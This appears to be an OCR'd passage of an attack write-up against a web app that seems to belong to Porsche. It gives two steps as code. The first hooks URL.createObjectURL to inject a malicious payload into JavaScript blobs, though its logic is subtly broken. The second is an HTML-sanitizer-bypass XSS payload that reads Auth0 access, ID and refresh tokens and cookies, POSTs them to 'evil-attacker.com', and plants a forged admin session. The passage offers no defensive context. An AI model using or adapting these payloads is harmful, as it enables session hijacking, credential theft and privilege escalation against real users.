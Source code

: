 #### **Step 3: Trigger Blob Creation**
```javascript
// Intercept the blob creation process
const originalCreateObjectURL = URL.createObjectURL;
URL.createObjectURL = function(blob) {
  if (blob.type === 'application/javascript') {
    // Inject our malicious code into the blob
    const reader = new FileReader();
    reader.onload = function() {
      const originalCode = reader.result;
      const maliciousCode = originalCode + maliciousPayload;
      const newBlob = new Blob([maliciousCode], {type: 'application/javascript'});
      return originalCreateObjectURL.call(this, newBlob);
    };
    reader.readAsText(blob);
  }
  return originalCreateObjectURL.call(this, blob);
};
```

---

### **Scenario 2: Session Hijacking via HTML Sanitization Bypass**

#### **Step 1: Exploit HTML Sanitizer**
```javascript
// Target: 6011-bff614aec9ecb925.js sanitization bypass
// Inject malicious HTML that steals authentication tokens

const maliciousHTML = `
<img src="x" onerror="
  // Steal all authentication data
  const authData = {
    accessToken: localStorage.getItem('auth0.access_token'),
    idToken: localStorage.getItem('auth0.id_token'),
    refreshToken: localStorage.getItem('auth0.refresh_token'),
    userProfile: localStorage.getItem('auth0.user_profile'),
    sessionCookies: document.cookie
  };
  
  // Exfiltrate to attacker server
  fetch('https://evil-attacker.com/steal-auth', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify(authData)
  });
  
  // Set attacker's session
  localStorage.setItem('auth0.access_token', 'ATTACKER_TOKEN_HERE');
  localStorage.setItem('auth0.user_profile', JSON.stringify({
    sub: 'admin_user_id',
    email: 'admin@porsche.com',
    roles: ['admin', 'super_user']
  }));
" style="display:none">
`;
```
